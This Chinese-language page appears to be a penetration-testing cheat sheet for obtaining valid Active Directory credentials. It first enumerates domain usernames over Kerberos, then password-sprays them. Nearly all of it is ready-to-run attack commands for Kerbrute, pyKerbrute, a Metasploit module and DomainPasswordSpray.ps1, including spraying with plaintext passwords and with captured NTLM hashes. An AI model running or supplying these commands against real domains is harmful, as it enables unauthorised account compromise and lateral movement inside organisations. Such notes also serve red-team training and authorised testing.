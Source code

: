 ```yaml
---
description: 枚举用户名 + 密码喷洒 = 获取有效凭证 / 枚举出用户名
---
```


# ✔️ 获取域内有效凭证

## 攻击手法

1. 枚举出目标域内存在的用户名
2. 对这些用户名进行密码喷洒
3. 获得有效域内有效凭证

## 用户名枚举工具&使用

### Kerbrute

* `userenum`：指定操作为用户名枚举
* `usernames.txt`：包含待枚举用户名的文件（可以是字典，也可以是针对目标域收集到的用户名列表）

```bash
kerbrute userenum -d 目标域名 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 和Kerbrute类似（该工具用python写的）
* 用的是：EnumADUser.py

```bash
// TCP模式
python EnumADUser.py 域控IP 目标域名 username.txt tcp
// UDP模式
python EnumADUser.py 域控IP 目标域名 username.txt udp
```

### MSF

* 模块：auxiliary/gather/kerberos\_enumusers

```bash
use auxiliary/gather/kerberos_enumusers
set domain 目标域名
set RHOSTS 域控IP
set user_file /tem/username.txt
run
```

## 密码喷洒工具&使用

### Kerbrute

* `passwordspray`：指定操作为密码喷洒

```bash
kerbrute passwordspray -d 目标域名 -p 已知的密码 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 用的是：ADPwdSpray.py

```bash
// 针对明文密码进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 udp
// 针对密码Hash进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 udp
```

### DomainPasswordSpray.ps1

* 该工具为powershell脚本
* 需要在目标域内机器上执行
* 原理：利用LDAP从域中导出列表->去除被锁定的用户->进行密码喷洒

```powershell
Import-Module.\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password 已知的明文密码
```



